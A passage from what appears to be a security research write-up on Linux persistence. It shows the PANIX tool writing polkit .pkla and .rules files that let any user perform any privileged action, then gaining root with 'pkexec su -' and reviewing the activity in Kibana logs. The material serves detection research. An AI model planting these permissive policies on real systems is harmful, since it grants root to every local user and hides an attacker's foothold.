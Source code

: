 ```
mkdir -p /etc/polkit-1/localauthority/50-local.d/

# Write the .pkla file
cat <<-EOF > /etc/polkit-1/localauthority/50-local.d/panix.pkla
[Allow Everything]
Identity=unix-user:*
Action=*
ResultAny=yes
ResultInactive=yes
ResultActive=yes
EOF
```

Allowing any `unix-user` to do any action through the `Identity=unix-user:*` and `Action=*` parameters.

For versions \>= 0.106 a `.rules` file is created in `/etc/polkit-1/rules.d/`:

```
mkdir -p /etc/polkit-1/rules.d/

# Write the .rules file
cat <<-EOF > /etc/polkit-1/rules.d/99-panix.rules
polkit.addRule(function(action, subject) {
	return polkit.Result.YES;
});
EOF
```

Where an overly permissive policy always returns `polkit.Result.YES`, which means that any action that requires Polkit’s authentication will be allowed by anyone.

Polkit rules are processed in lexicographic (ASCII) order, meaning files with lower numbers load first, and later rules can override earlier ones. If two rules modify the same policy, the rule with the higher number takes precedence because it is evaluated last. To ensure the rule is executed and overrides others, PANIX creates it with a filename starting with 99 (e.g. `99-panix.rules`).

Let’s run the PANIX module with the following command line arguments:

```
> sudo ./panix.sh --polkit

[!] Polkit version < 0.106 detected. Setting up persistence using .pkla files.
[+] Persistence established via .pkla file.
[+] Polkit service restarted.
[!] Run pkexec su - to test the persistence.
```

And take a look at the logs in Kibana:

![PANIX Polkit module execution visualized in Kibana](/assets/images/the-grand-finale-on-linux-persistence/image2.png)

Upon execution of PANIX, we can see the `pkaction --version` command being issued to determine whether a `.pkla` or `.rules` file approach is needed. After figuring this out, the correct policy is created, and the `polkit` service is restarted (this is not always necessary however). Once these policies are in place, a user with a `user.Ext.real.id` of `1000` (not-root) is capable of obtaining root privileges by executing the `pkexec su -` command. 
